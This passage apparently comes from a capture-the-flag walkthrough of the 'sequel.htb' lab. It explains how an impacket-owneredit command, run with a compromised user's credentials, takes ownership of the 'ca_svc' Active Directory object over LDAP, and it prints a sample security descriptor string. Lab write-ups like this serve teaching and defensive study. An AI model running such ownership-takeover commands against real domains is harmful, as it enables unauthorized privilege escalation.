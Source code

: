 Our first step is to **change the Owner** of the `ca_svc` object using **impacket-owneredit**.

```bash
impacket-owneredit -dc-ip 10.10.11.51 -action write -new-owner 'ryan' -target 'ca_svc' sequel.htb/ryan:PASS
```

*To be clear for the most beginners: these permissions are managed by the **LDAP** service, so every communication will be with LDAP, which is the service that manages users and permissions.*

To do this, `impacket-owneredit` starts a session in LDAP with the credentials we have, `ryan` in this case.  
Then we retrieve from LDAP the [`nTSecurityDescriptor`](https://learn.microsoft.com/en-us/windows/win32/adschema/a-ntsecuritydescriptor#windows-server-2012) field of the target user using its **SAMAccountName**, `ca_svc`. This field contains two important attributes: the **Owner** of the Object (which is what we will modify now), and the **ACL (or DACL)** of the object (which we'll talk about in the following steps).

For those who want a bit more detail about this field, its format looks something like this:

```
O:DAG:DAD:AI(A;;LCRPLORC;;;PS)(A;;RC;;;AU)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;SY)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;AO)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;DA)(A;CI;WO;;;S-1-5-21-548670397-972687484-3496335370-1114)(OA;;CR;ab721a53-1e2f-11d0-9819-00aa0040529b;;WD)(OA;;RPWP;e45795b2-9455-11d1-aebd-0000f80367c1;;PS)(OA;;RPWP;e45795b3-9455-11d1-aebd-0000f80367c1;;PS)(OA;;CR;ab721a53-1e2f-11d0-9819-00aa0040529b;;PS)(OA;;CR;ab721a54-1e2f-11d0-9819-00aa0040529b;;PS)(OA;;CR;ab721a56-1e2f-11d0-9819-00aa0040529b;;PS)(OA;;RPWP;77b5b886-944a-11d1-aebd-0000f80367c1;;PS)(OA;;RP;e48d0154-bcf8-11d1-8702-00c04fb96050;;AU)(OA;;RP;77b5b886-944a-11d1-aebd-0000f80367c1;;AU)(OA;;RP;e45795b3-9455-11d1-aebd-0000f80367c1;;AU)(OA;;RP;59ba2f42-79a2-11d0-9020-00c04fc2d3cf;;AU)(OA;;RP;46a9b11d-60ae-405a-b7e8-ff8a58d456d2;;S-1-5-32-560)(OA;;RPWP;5805bc62-bdc9-4428-a5e2-856a0f4c185e;;S-1-5-32-561)(OA;;RPWP;6db69a1c-9422-11d1-aebd-0000f80367c1;;S-1-5-32-561)(OA;;RPWP;bf967a7f-0de6-11d0-a285-00aa003049e2;;CA)(OA;;RP;037088f8-0ae1-11d2-b422-00a0c968f939;;RS)(OA;;RP;bc0ac240-79a9-11d0-9020-00c04fc2d4cf;;RS)(OA;;RP;5f202010-79a5-11d0-9020-00c04fc2d4cf;;RS)(OA;;RP;4c164200-20c0-11d0-a768-00aa006e0529;;RS)(OA;CIIOID;RP;4c164200-20c0-11d0-a768-00aa006e0529;4828cc14-1437-45bc-9b07-ad6f015e5f28;RU)(OA;CIID;RP;4c164200-20c0-11d0-a768-00aa006e0529;bf967aba-0de6-11d0-a285-00aa003049e2;RU)(OA;CIIOID;RP;5f202010-79a5-11d0-9020-00c04fc2d4cf;4828cc14-1437-45bc-9b07-ad6f015e5f28;RU)(OA;CIID;RP;5f202010-79a5-11d0-9020-00c04fc2d4cf;bf967aba-0de6-11d0-a285-00aa003049e2;RU)(OA;CIIOID;RP;bc0ac240-79a9-11d0-9020-00c04fc2d4cf;4828cc14-1437-45bc-9b07-ad6f015e5f28;RU)(OA;CIID;RP;bc0ac240-79a9-11d0-9020-00c04fc2d4cf;bf967aba-0de6-11d0-a285-00aa003049e2;RU)(OA;CIIOID;RP;59ba2f42-79a2-11d0-9020-00c04fc2d3cf;4828cc14-1437-45bc-9b07-ad6f015e5f28;RU)(OA;CIID;RP;59ba2f42-79a2-11d0-9020-00c04fc2d3cf;bf967aba-0de6-11d0-a285-00aa003049e2;RU)(OA;CIIOID;RP;037088f8-0ae1-11d2-b422-00a0c968f939;4828cc14-1437-45bc-9b07-ad6f015e5f28;RU)(OA;CIID;RP;037088f8-0ae1-11d2-b422-00a0c968f939;bf967aba-0de6-11d0-a285-00aa003049e2;RU)(OA;CIID;RPWP;5b47d60f-6090-40b2-9f37-2a4de88f3063;;S-1-5-21-548670397-972687484-3496335370-526)(OA;CIID;RPWP;5b47d60f-6090-40b2-9f37-2a4de88f3063;;S-1-5-21-548670397-972687484-3496335370-527)(OA;CIIOID;SW;9b026da6-0d3c-465c-8bee-5199d7165cba;bf967a86-0de6-11d0-a285-00aa003049e2;CO)(OA;CIIOID;SW;9b026da6-0d3c-465c-8bee-5199d7165cba;bf967a86-0de6-11d0-a285-00aa003049e2;PS)(OA;CIIOID;RP;b7c69e6d-2cc7-11d2-854e-00a0c983f608;bf967a86-0de6-11d0-a285-00aa003049e2;ED)(OA;CIIOID;RP;b7c69e6d-2cc7-11d2-854e-00a0c983f608;bf967a9c-0de6-11d0-a285-00aa003049e2;ED)(OA;CIID;RP;b7c69e6d-2cc7-11d2-854e-00a0c983f608;bf967aba-0de6-11d0-a285-00aa003049e2;ED)(OA;CIIOID;WP;ea1b7b93-5e48-46d5-bc6c-4df4fda78a35;bf967a86-0de6-11d0-a285-00aa003049e2;PS)(OA;CIIOID;LCRPLORC;;4828cc14-1437-45bc-9b07-ad6f015e5f28;RU)(OA;CIIOID;LCRPLORC;;bf967a9c-0de6-11d0-a285-00aa003049e2;RU)(OA;CIID;LCRPLORC;;bf967aba-0de6-11d0-a285-00aa003049e2;RU)(OA;OICIID;RPWP;3f78c3e5-f79a-46bd-a0b8-9d18116ddc79;;PS)(OA;CIID;RPWPCR;91e647de-d96f-4b70-9557-d63ff4f3ccd8;;PS)(A;CIID;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;S-1-5-21-548670397-972687484-3496335370-519)(A;CIID;LC;;;RU)(A;CIID;CCLCSWRPWPLOCRSDRCWDWO;;;BA)
```
